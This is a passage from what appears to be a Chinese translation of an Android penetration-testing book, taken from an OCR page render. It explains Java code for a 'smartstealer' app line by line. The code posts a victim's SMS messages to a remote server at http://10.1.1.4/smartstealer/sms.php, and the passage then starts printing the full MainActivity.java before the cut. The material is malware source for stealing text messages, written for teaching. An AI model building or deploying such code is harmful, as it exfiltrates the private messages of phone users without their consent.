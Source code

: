   DefaultHttpClient httpClient = new DefaultHttpClient();

  HttpPost httpPost = new HttpPost("http://10.1.1.4/smartstealer/sms.php");

  try {
    httpPost.setEntity(new UrlEncodedFormEntity(arrayList));
    httpClient.execute(httpPost);

  } catch (Exception e) {

  e.printStackTrace();
  }
  }

}
```

让我们逐行理解前面的代码。

*   首先我们创建`DefaultHttpClient`对象：

    ```
    DefaultHttpClient httpClient = new DefaultHttpClient();
    ```

*   接下来我们将创建一个`HttpPost`对象，在这里我们需要指定目标服务器的 URL。在我们的例子中，下面是 URL。我们将在本节后面看到`sms.php`文件的代码：`http://10.1.1.4/smartstealer/sms.php`
*   接下来，我们需要构建要发送到服务器的 post 参数。在本例中，我们需要发送的唯一参数是 SMS 名称-值对，它作为参数传递给`uploadData()`方法：

    ```
    httpPost.setEntity(new UrlEncodedFormEntity(arrayList));
    ```

*   最后一步是使用下面的行执行 HTTP 请求：

    ```
    httpClient.execute(httpPost);
    ```

#### MainActivity.java 的完整代码

以下是我们在`MainActivity.class`文件中编写的完整代码：

```
package com.androidpentesting.smartstealer;

import android.app.Activity;
import android.database.Cursor;
import android.net.Uri;
import android.os.Bundle;
import android.view.View;
import android.widget.Button;

import org.apache.http.client.entity.UrlEncodedFormEntity;
import org.apache.http.client.methods.HttpPost;
import org.apache.http.impl.client.DefaultHttpClient;
import org.apache.http.message.BasicNameValuePair;
